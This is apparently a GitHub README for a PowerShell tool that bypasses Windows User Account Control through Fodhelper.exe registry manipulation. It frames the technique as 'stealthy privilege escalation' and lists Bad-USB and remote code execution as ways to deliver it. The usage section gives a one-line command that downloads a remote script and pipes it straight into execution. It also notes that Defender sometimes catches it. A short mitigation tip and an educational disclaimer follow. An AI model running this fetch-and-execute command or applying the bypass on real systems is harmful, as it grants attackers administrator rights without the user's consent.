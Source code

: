 # Fodhelper UAC Bypass Implementation

## Overview
This repository contains a PowerShell script that demonstrates a UAC (User Account Control) bypass using **Fodhelper.exe**, a trusted binary in Windows operating systems. By exploiting a feature of Fodhelper.exe, we can elevate privileges without triggering the typical UAC prompt, allowing for seamless execution of elevated commands.

### What is Fodhelper.exe?
**Fodhelper.exe** is a trusted system binary found in Windows operating systems. By default, this executable has administrative privileges and is considered a "trusted binary" in Windows. As a result, **Fodhelper.exe** can be leveraged to gain administrative rights without triggering the standard UAC prompt that usually appears when attempting to run applications as an administrator.

In simpler terms, when running an application that requires administrative privileges, Windows typically prompts the user to confirm the action (UAC prompt). However, **Fodhelper.exe** bypasses this step, allowing for elevated privileges without user intervention. This behavior is a Windows-specific feature that can be exploited through registry manipulation to stealthily execute commands with administrative rights.

### How Does it Work?
The process involves manipulating registry entries related to **Fodhelper.exe** to invoke the binary along with powershell. Since the binary -- parent -- has administrative privileges by default, powershell -- child -- also will have the same privileges. Once triggered, **Fodhelper.exe** will execute the designated commands set on registry; in this case, running PowerShell with some command.

This technique allows for the execution of commands or scripts that would typically require UAC confirmation, bypassing the prompt altogether. It can be used for automation or stealthy privilege escalation purposes.

### Stripped-Down Script
This repository provides a **stripped-down version of the PowerShell script** that showcases the basic functionality of the Fodhelper UAC bypass technique. The script is simplified to demonstrate that the method works, and you can modify it as needed to suit your purposes. **Please note**: This tool is intended for educational purposes only and should be used responsibly.

---

## Usage

### Tested on Windows 10 & Windows 11

### Prerequisites
- A Windows operating system with UAC enabled (the method works by exploiting **Fodhelper.exe**'s behavior in these environments).
- PowerShell is required for executing the script.

### Running the Script
1. Open a PowerShell session with out administrative privileges.
4. Execute the PowerShell script using the following command:
   ```powershell
   irm "https://raw.githubusercontent.com/CousTov/UACBypass/refs/heads/main/uacGit.ps1" | iex

### Knows Issues:
1. Although rarely, defender does get triggred on some Windows 11 systems. I have not looked into the exact reason, but if I were to guess, it's probably becasuse of the script's behaviour.

### Possible Attack Mediums
1. Bad-USB
2. Manual Execution
3. Remote Code Execution (RCE)

### How to be safe?
You can change the UAC behavior by opening the Control Panel > System and Security > Change User Account Control settings. Move the slider to max.

---

### Legal Disclaimer
This script and method are shared for educational purposes only. Misuse of this information, including unauthorized access to systems or data, is illegal and unethical. Always obtain proper authorization before attempting to use this technique in any environment. The author of this repository assumes no responsibility for any consequences arising from the use of this tool.

